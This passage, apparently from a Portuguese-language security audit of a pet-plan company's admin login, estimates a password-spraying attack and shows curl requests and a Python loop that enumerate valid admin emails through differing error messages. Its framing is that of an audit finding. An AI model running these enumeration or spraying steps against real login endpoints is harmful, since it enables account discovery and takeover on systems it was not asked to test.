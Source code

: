 4. **Cálculo de Sucesso:**
   ```
   10 emails × 10 senhas = 100 tentativas
   100 tentativas ÷ 10 (por IP) = 10 IPs necessários
   Tempo total: ~15 minutos
   
   Probabilidade de quebrar senha fraca: ~30%
   ```

---

### 🕵️ ATAQUE 9: Enumeração de Usuários

**Vetor de Ataque:** Mensagens de erro diferentes  
**Severidade:** MÉDIA 🟡

#### Como o Hacker Exploraria:

1. **Testar Email Inexistente:**
   ```bash
   curl -X POST /admin/api/login \
     -d '{"email":"naaoexiste@test.com","password":"123"}'
   
   # Resposta:
   {"error": "Usuário não encontrado"}
   ```

2. **Testar Email Existente:**
   ```bash
   curl -X POST /admin/api/login \
     -d '{"email":"admin@unipetplan.com.br","password":"123"}'
   
   # Resposta:
   {"error": "Senha incorreta"}
   ```

3. **Enumerar Todos os Admins:**
   ```python
   possible_emails = [
       'admin@unipetplan.com.br',
       'suporte@unipetplan.com.br',
       'gerente@unipetplan.com.br',
       # ... lista de 1000 emails
   ]
   
   valid_emails = []
   for email in possible_emails:
       resp = requests.post('/admin/api/login', 
                           json={'email': email, 'password': 'x'})
       
       if 'Senha incorreta' in resp.text:
           valid_emails.append(email)
           print(f"[+] Email válido: {email}")
   ```

---